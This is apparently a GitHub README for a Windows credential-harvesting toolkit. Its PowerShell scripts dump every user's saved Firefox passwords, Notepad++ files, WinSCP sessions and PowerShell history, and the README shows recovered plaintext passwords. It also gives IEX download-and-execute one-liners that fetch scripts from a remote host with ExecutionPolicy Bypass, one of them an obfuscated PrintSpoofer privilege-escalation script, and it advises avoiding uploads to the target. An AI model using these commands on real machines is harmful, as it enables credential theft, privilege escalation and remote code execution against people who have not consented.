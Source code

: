 A set of scripts to help gathering credentials from Windows devices, especially usefull if there are hundreds of users on the machine.

The scripts should be run as a **high privileged user** to gather as much information as possible.

---

# firefox_dump.ps1
This script will loop through all users under `C:\Users` and dump all saved credentials from Mozilla Firefox profiles. 
## Example Usage
```powershell
PS E:\devop-scripts> powershell.exe -ExecutionPolicy Bypass .\firefox_dump.ps1
[-] 'Public' doesn't have any saved passwords in Mozilla Firefox
[+] Dumping secrets from 'user' to: C:\Users\void\AppData\Local\Temp\user\firefox\ahf32hh2.default-release
[+] Dumping secrets from 'user2' to: C:\Users\void\AppData\Local\Temp\user2\firefox\plhh3lmm.default-release
[-] 'user3' doesn't have any saved passwords in Mozilla Firefox
[+] Dumping secrets from 'void' to: C:\Users\void\AppData\Local\Temp\void\firefox\plmxz1zm.default-release
```

If you don't want to upload files to the target host simply copy-paste the try-catch code from the script and run it as is in PowerShell.
Decrypt the information with  [`firefox_decrypt.py`](https://github.com/unode/firefox_decrypt) or similar.
```bash
┌──(void㉿void)-[/opt/firefox_decrypt]
└─$ ./firefox_decrypt.py /tmp/firefox-loot/user1            

Website:   http://localhost:8000
Username: 'dev-user'
Password: 'D3velopm3ntM@st3rK3y*!'
```
---

# notepad_dump.ps1
This script will loop through all users under `C:\Users` and dump all roaming text files from Notepad++. 
## Example Usage
```powershell
PS E:\devop-scripts> powershell.exe -ExecutionPolicy Bypass .\notepad_dump.ps1
[-] 'Public' doesn't have any roaming Notepad++ data.
[+] Dumping Notepad++ data from 'user' to: C:\Users\void\AppData\Local\Temp\user\notepad++
[+] Dumping Notepad++ data from 'user2' to: C:\Users\void\AppData\Local\Temp\user2\notepad++
[-] 'user3' doesn't have any roaming Notepad++ data.
[+] Dumping Notepad++ data from 'void' to: C:\Users\void\AppData\Local\Temp\void\notepad++
```

---

# winscp_dump.ps1
This script will loop through all users in the registry (HKLM) and dump all saved winscp sessions.
## Exampe Usage
```powershell
PS E:\devop-scripts> powershell.exe -ExecutionPolicy Bypass .\winscp_dump.ps1
[+] User: void - Session: root@127.0.0.1
  HostName: 127.0.0.1
  UserName: root
  EncPassword: A35C745EFEDC2E3333286D6E6B726C726C726D0834352F152F11250F393F2E39280C3D2F2F2B387D7E7F6D7D7E7F5B3C20AF

[+] Saved all output to logfile: C:\Users\void\AppData\Local\Temp\winscp_dump.log
```

Decrypt the encrypted password with [`WinSCPDec.py`](https://gist.github.com/tijldeneut/69717c56de3e16e97516a1964fa49bfd) or similar.
```bash
apt-kali :: ~ » python3 WinSCPDec.py --host=127.0.0.1 --user=root --pass=A35C745EFEDC2E3333286D6E6B726C726C726D0834352F152F11250F393F2E39280C3D2F2F2B387D7E7F6D7D7E7F5B3C20AF
[+] Succes!
     ThisIsMySecretPasswd!"#1!"#
```

---

# Get-PSHistory.ps1
Simple script to loop through all users and print their Powershell History.
```powershell
PS C:\Users\void> IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/0xPThree/Windows-Harvesting/refs/heads/main/Get-PSHistory.ps1')
[*] Getting PS History for all users.
[+] PowerShell Console History For All Users!
[+] Computer Name: THIS-IS-MY-HOSTNAME
[+] Users On Machine:
    Administrator
...
```


---

# obf_ps.ps1
Obfuscated PrintSpoofer script.
```powershell
> powershell -nop -ExecutionPolicy Bypass -c "IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/0xPThree/Windows-Harvesting/refs/heads/main/obf_ps.ps1')"

## If error: "The request was aborted: Could not create SSL/TLS secure channel."
> [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12 
```
